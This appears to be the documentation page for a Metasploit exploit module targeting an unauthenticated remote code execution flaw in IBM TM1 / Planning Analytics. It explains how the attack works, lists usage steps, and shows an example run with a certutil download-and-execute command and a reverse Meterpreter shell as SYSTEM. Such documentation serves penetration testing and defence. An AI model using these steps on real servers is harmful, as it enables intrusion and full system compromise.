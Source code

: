 ## Module description
This module exploits a vulnerability in IBM TM1 / Planning Analytics that allows an unauthenticated attacker to perform a configuration overwrite.
It starts by querying the Admin server for the available applications, picks one, and then exploits it. You can also provide an application name to bypass this step, and exploit the application directly.
The configuration overwrite is used to change an application server authentication method to "CAM", a proprietary IBM auth method, which is simulated by the exploit.
The exploit then performs a fake authentication as admin, and finally abuses TM1 scripting to perform a command injection as root or SYSTEM. 

Testing was done on IBM PA 2.0.6 and IBM TM1 10.2.2 on Windows and Linux. 

Versions up to and including PA 2.0.8 are vulnerable. It is likely that versions earlier than TM1 10.2.2 are also vulnerable (10.2.2 was released in 2014).

Users are encouraged to share success stories with the module author. For more information, check the full advisory at https://raw.githubusercontent.com/pedrib/PoC/master/advisories/ibm-tm1-rce.txt.


## What does this module do
This module starts by querying the Admin server, which usually runs on port 5498 with SSL enabled, or 5495 without SSL. This can be queried by a normal client without authentication, and with that we retrieve a list of applications, the servers where they are running, the ports where they are running, and if they use SSL or not.

Note that there might be cases where the applications do not run on the same host as the Admin server; however this is expected to be rare. Even in that case, the exploit should work perfectly, as it uses the information from the Admin server to connect to the Application server host, and automatically sets up SSL if needed.

If you know the application name, port and SSL status, you can enter this directly into the exploit, which then will not perform the Admin server query. For this, enter the application port in the RPORT option, whether it uses SSL or not in the SSL option, and finally set APP_NAME to the application name.

## Vulnerable Application

To obtain the vulnerable application you need an official IBM installer for IBM Planning Analytics or IBM TM1. This exploit works perfectly for both Windows and Linux targets.

## Verification Steps
  1. Install the application
  2. Start msfconsole
  3. Do: ```use [module path]```
  4. Do: ```set srvhost [lhost]```
  5. Do: ```set target [0|1]```
  6: Do: ```set rhost [rhost]```
  7. Do: ```run```
  8. You should get a shell.
  
  
## Example run
```
[*] Started reverse TCP handler on 192.168.1.1:4444
[*] 192.168.1.138:5498 - Connecting to admin server and obtaining application data
[+] 192.168.1.138:5498 - Found app GO_New_Stores tcp ip: 192.168.1.138 port: 45557 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app GO_Scorecards tcp ip: 192.168.1.138 port: 54321 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app Planning Sample tcp ip: 192.168.1.138 port: 12345 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app proven_techniques tcp ip: 192.168.1.138 port: 17797 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app SData tcp ip: 192.168.1.138 port: 12346 available: 1 SSL: 1
[*] 192.168.1.138:5498 - Picked SData as our target, connecting...
[+] 192.168.1.138:5498 - Current auth method is 1, we're good to go!
[*] 192.168.1.138:5498 - Starting up the fake CAM server...
[*] 192.168.1.138:5498 - Using URL: http://192.168.1.1:4466/
[*] 192.168.1.138:5498 - Changing authentication method to 4 (CAM auth)
[*] 192.168.1.138:5498 - Authenticating using CAM Passport and our fake CAM Service...
[+] 192.168.1.138:5498 - CAM: Received first CAM query, responding with account info
[+] 192.168.1.138:5498 - CAM: Received second CAM query, responding with session info
[+] 192.168.1.138:5498 - CAM: Received third CAM query, responding with random garbage
[*] 192.168.1.138:5498 - Creating our Process object...
[*] 192.168.1.138:5498 - Adding command :"certutil.exe -urlcache -split -f http://192.168.1.1:4466/ C:\Windows\Temp\KWFUmh.exe" to the Process object...
[*] 192.168.1.138:5498 - Adding command :"C:\Windows\Temp\KWFUmh.exe" to the Process object...
[*] 192.168.1.138:5498 - Registering the Process object under the name 'cRKnsLzFFwDI'
[*] 192.168.1.138:5498 - Now let's execute the Process object!
[+] 192.168.1.138:5498 - CAM: Received request for payload executable, shell incoming!
[+] 192.168.1.138:5498 - CAM: Received request for payload executable, shell incoming!
[*] Sending stage (180291 bytes) to 192.168.1.138
[*] Meterpreter session 6 opened (192.168.1.1:4444 -> 192.168.1.138:49306) at 2020-03-27 12:24:55 +0700
[*] 192.168.1.138:5498 - Restoring original authentication method 1
[*] 192.168.1.138:5498 - Server stopped.
[!] 192.168.1.138:5498 - This exploit may require manual cleanup of 'C:\Windows\Temp\KWFUmh.exe' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...
```

## Options
  - SSL: whether to use SSL to connect to the Admin / Application server (default true)
  - APP_NAME: application name to use to connect directly, bypassing Admin server query (default unset).
  - AUTH_ATTEMPTS: number of attempts to authentication to the fake CAM server (default 10)

## Author
Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security
